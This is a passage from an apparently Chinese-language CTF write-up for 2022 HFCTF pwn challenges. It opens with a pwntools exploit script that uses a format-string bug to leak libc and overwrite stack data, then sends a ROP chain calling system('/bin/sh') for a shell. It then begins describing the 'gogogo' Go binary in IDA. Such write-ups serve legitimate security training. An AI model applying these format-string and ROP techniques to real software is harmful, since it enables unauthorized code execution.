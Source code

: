 

    target =  stack_base -824 

    #fmt = 'aaaaaa'

    fmt = b'%9$lx%170c%8$hhn' + p64(target)

    #p.send(fmt)

    # offset = 6

    gdb.attach(io)

    io.send(fmt)



    #gdb.attach(io)

    io.recvuntil(b'Good luck to you.\n')



    libc_base = int(io.recv(12),16) - 0x61d6f

    system = libc_base + libc2.sym['system']

    binsh = libc_base + next(libc2.search(b'/bin/sh'))

    print("libc")

    print(hex(libc_base))

    pop_rdi = 0x23b72

    ret = 0x22679 

    ropchain = p64(0xdeadbeef) + p64(ret+libc_base) + p64(pop_rdi+libc_base) + p64(binsh) + p64(system)



    io.sendline(ropchain)

    io.interactive()




## gogogo<br>
这道题嘛，与其说是pwn，更像re

一开始先跑一下它

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/1.png)

看样子是让我们输入一些东西的

拖入IDA进行分析，我用的IDA版本是7.6，这时候IDA已经开始了对go编写的代码的反编译支持，然而这个支持并不是很好，在IDA中我们看到main_main函数（一般情况下这是程序的主函数，但是这次情况并不相同，稍后再说）


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-25-2022HFCTF_pwn_gogogo/3.png)
